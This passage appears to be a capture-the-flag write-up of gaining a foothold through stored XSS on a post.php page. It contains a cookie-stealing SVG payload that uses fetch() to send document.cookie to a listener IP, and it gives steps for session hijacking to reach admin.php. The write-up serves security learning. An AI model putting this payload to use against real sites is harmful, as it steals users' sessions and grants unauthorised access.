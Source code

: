 # Foothold

So now we know that post.php page is vulnerable to ==XSS==, but how can we exploit it?

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

Cross-Site Scripting (XSS) attacks occur when:
1. Data enters a Web application through an untrusted source, most frequently a web request.
2. The data is included in dynamic content that is sent to a web user without being validated for malicious content.
https://owasp.org/www-community/attacks/xss/

```shell
python3 -m http.server 8080
```

```shell
<svg xmlns='' onload='fetch("http://192.168.111.129:8080/exfil?cookies=" + encodeURIComponent(document.cookie))'/>
```

![Pasted image 20250511232046](MediaFiles/Pasted%20image%2020250511232046.png)
the cookie here is: iha5l02lih8lgrukq0af0bih40 (caution, %3D is =, so take the rest of it)

so take the cookie from your terminal (which you received on localhost), and go to the browser on storage, and change whatever value there with the cookie you received above
![Pasted image 20250511232221](MediaFiles/Pasted%20image%2020250511232221.png)
then just hit login or go to admin.php directly and you are in